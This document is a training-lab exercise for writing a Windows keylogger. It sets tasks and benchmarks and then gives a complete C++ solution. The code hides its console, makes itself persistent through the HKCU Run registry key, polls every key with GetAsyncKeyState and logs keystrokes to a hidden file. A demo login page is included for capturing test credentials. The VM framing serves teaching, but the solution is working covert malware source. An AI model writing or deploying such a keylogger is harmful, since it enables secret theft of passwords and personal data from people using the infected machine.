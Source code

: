 # Write A Standalone Keylogger
A keylogger is a type of malware used in cyberattacks to steal sensitive information by recording keystrokes on a victim's computer. Often installed covertly through phishing emails, it captures login credentials and personal data for attackers to misuse


## References
- [Keystroke Logging](https://en.wikipedia.org/wiki/Keystroke_logging) by Wikipedia
- [GetAsyncKeyState](https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-getasynckeystate) by Microsoft
- [Keylogger](https://github.com/shubhangi-singh21/Keylogger) by shubhangi-singh21 on GitHub


## Tasks
- Setup a Windows VM
- Write a custom keylogger program with the following capabilities
  - The program starts executing when the system boots
  - The program runs as a background process without affecting any foreground processes
  - The program logs all user keystrokes in hidden files on the same disk
  - The program must use minimal resources to avoid detection
- Keylogger Creation Guidelines
  - You can use Windows APIs in your program
  - Use a programming language of your choice
  - Compile the program into a binary for deployment
- Deploy the keylogger binary in your VM
- Configure the keylogger to execute when the system starts
- Open a web browser and input a fictional username and password into a login form


## Benchmarks
- Validate that your keylogger starts at system boot time
- Validate that your keylogger records all keystrokes in hidden files
- Validate that your keylogger runs as a background process (you can view the active process listing in 'Task Manager')


## Solutions With Scripts
1. Save the following C++ program and compile it into a binary file called `keylogger.exe` to be used in a Windows 10 VM
   ```
    #include <iostream>
    #include <windows.h>
    
    using namespace std;
    
    int Save(int _key, char *file);
    
    void AddToStartup() {
        char filePath[MAX_PATH];
        GetModuleFileName(NULL, filePath, MAX_PATH);
        HKEY hKey;
        RegOpenKey(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
        RegSetValueEx(hKey, "MyKeylogger", 0, REG_SZ, (BYTE*)filePath, strlen(filePath) + 1);
        RegCloseKey(hKey);
    }
    
    void HideLogFile() {
        SetFileAttributes("log.txt", FILE_ATTRIBUTE_HIDDEN);
    }
    
    int main() {
        FreeConsole();
        AddToStartup();
        HideLogFile();
    
        char i;
        while (true) {
            Sleep(10);
            for (i = 8; i <= 255; i++) {
                if (GetAsyncKeyState(i) == -32767) {
                    Save(i, (char*)"log.txt");
                }
            }
        }
        return 0;
    }
    
    int Save(int _key, char *file) {
        FILE *OUTPUT_FILE;
        OUTPUT_FILE = fopen(file, "a+");
        switch (_key) {
            case VK_SHIFT: fprintf(OUTPUT_FILE, "[SHIFT]"); break;
            case VK_BACK: fprintf(OUTPUT_FILE, "[BACKSPACE]"); break;
            case VK_LBUTTON: fprintf(OUTPUT_FILE, "[LBUTTON]"); break;
            case VK_RBUTTON: fprintf(OUTPUT_FILE, "[RBUTTON]"); break;
            case VK_RETURN: fprintf(OUTPUT_FILE, "[ENTER]"); break;
            case VK_TAB: fprintf(OUTPUT_FILE, "[TAB]"); break;
            case VK_ESCAPE: fprintf(OUTPUT_FILE, "[ESCAPE]"); break;
            case VK_CONTROL: fprintf(OUTPUT_FILE, "[CTRL]"); break;
            case VK_MENU: fprintf(OUTPUT_FILE, "[ALT]"); break;
            case VK_CAPITAL: fprintf(OUTPUT_FILE, "[CAPS LOCK]"); break;
            case VK_SPACE: fprintf(OUTPUT_FILE, "[SPACE]"); break;
        }
        fprintf(OUTPUT_FILE, "%s", &_key);
        fclose(OUTPUT_FILE);
        return 0;
    }
   ```
2. Save the following HTML file as `login.html` for the purpose of inputting a fictional username and password in the login form
   ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Demo Login Page</title>
    </head>
    <body>
        <h1>Login</h1>
        <form>
            <label for="username">Username:</label><br>
            <input type="text" id="username" name="username"><br><br>
            <label for="password">Password:</label><br>
            <input type="password" id="password" name="password"><br><br>
            <button type="submit">Login</button>
        </form>
    </body>
    </html>
   ```
3. Reboot the Windows 10 VM and open `login.html` in a web browser. Show that the keylogger records all keystrokes in hidden files
   
